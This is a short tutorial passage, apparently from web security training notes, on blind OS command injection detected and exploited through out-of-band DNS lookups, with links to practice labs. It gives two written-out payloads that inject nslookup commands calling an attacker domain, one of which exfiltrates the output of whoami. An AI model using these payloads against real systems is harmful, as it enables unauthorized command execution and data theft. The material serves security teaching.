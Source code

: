 ### Exploiting blind OS command injection using out-of-band (**[OAST](https://portswigger.net/burp/application-security-testing/oast)**) techniques
  
  
You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques.  
  
For example:  
>`& nslookup kgji2ohoyw.web-attacker.com &`  
  
This payload uses the `nslookup` command to cause a DNS lookup for the specified domain.  
  
The attacker can monitor for the specified lookup occurring, and thereby detect that the command was successfully injected.  

-
>LAB [Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)  
  
  
  
  
The out-of-band channel also provides an easy way to exfiltrate the output from injected commands:  
>``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &``  
  
This will cause a DNS lookup to the attacker's domain containing the result of the `whoami` command:  
>`wwwuser.kgji2ohoyw.web-attacker.com`  
  
  -
>LAB [Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)
